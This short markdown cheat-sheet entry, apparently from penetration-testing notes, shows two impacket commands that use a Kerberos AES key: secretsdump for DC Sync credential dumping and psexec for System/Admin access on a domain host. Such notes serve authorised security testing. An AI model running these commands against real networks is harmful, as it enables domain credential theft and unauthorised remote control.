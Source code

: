 # aesKey

## Tools: impacket tools , secretsdump

#### 1) secretsdump

    secretsdump -aesKey AES_KEY 'DOMAIN'/'USER'@'IP' (See DC Sync)

#### 2) impacket tools

    impacket-psexec -aesKey AES_KEY USER@FQDN (System/Admin access)
